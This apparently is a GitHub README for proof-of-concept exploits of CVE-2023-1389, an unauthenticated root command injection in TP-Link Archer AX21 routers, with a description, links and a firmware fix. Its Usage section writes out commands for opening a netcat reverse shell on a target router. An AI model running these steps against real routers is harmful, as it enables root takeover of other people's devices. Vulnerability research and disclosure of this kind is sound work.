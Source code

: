 # Description
CVE-2023–1389 is an Unauthenticated Command Injection vulnerability in the TP-Link Archer AX21 WiFi router. A calllback in the **country** parameter uses the **popen()** function, which is run as root, allowing the attacker to inject arbitrary values through GET or POST requests to the admin interface, without requiring authentication. More details about the vulnerability can be found [here](https://www.tenable.com/security/research/tra-2023-11).

These are a couple of Proof-of-Concepts I created while exploring the command injection. Archer-file-transfer.py was the first iteration and is fairly convaluted in how it achieves interaction. Archer-rev-shell.py gives you a simple netcat reverse shell, and is likely the one you're here for. If you would like to learn more about the development of these scripts you can read the post [here](https://medium.com/@voyag3r-security/exploring-cve-2023-1389-rce-in-tp-link-archer-ax21-d7a60f259e94). 
## Usage
In one terminal window:
```
nc your_IP listener_port
```
In a second terminal window:
```
python3 archer-rev-shell.py -r router_IP -a your_IP -p listner_port
```

## Mitigation
TP-Link has released firmware version 1.1.4 Build 20230219 which fixes the issue by removing the vulnerable callback. Updating your router to the latest firmware should protect your device. 
## Future 
I will likely not be maintaining these PoCs. Both are pretty simple and should be easy to modify as needed.
